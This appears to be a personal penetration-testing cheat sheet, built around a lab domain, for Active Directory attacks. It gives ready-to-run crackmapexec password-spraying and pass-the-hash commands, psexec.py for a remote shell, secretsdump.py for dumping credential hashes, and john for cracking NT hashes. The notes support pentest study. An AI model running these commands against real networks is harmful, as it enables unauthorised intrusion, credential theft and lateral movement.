 # crackmapexec

Use crackmapexec to pass the password around the network and see what other machines include this account

```bash
example: crackmapexec smb 192.168.16.0/24 -u fcastle -d MARVEL.local -p Password1
Usage: crackmapexec smb [ ip/CIDR] -u [username] -d [domain] -p [password]
```
### Pass the Hash
Once you get the hash from secrets dump you only want the second part of the hash after the colon
```bash
crackmapexec smb 192.168.16.0/24 -u "Frank Castle" -H 64f12cddaa88057e06a81b54e73b949b --local-auth
```

### Run this command once domain admin creds are discovered

```bash
crackmapexec smb 10.10.10.10/24 -u water -p password123
#new users and their hashes will be discovered
```

# psexec
You can use this command to get a quick easy shell sometimes it works sometimes it doesn't

```bash
example: psexec.py marvel/fcastle:Password1@192.168.16.139
usage: psexec.py domain/username:password@[IP]
```

# secretsdump

Use this to dump hashes and maybe pass them around
```bash
example: secretsdump.py marvel/fcastle:Password1@192.168.16.129
usage: secretsdump.py domain/username:password@[IP]
```


cracking sam hashes
```bash
john hash.txt --format=NT --wordlist=/path/to/file
```
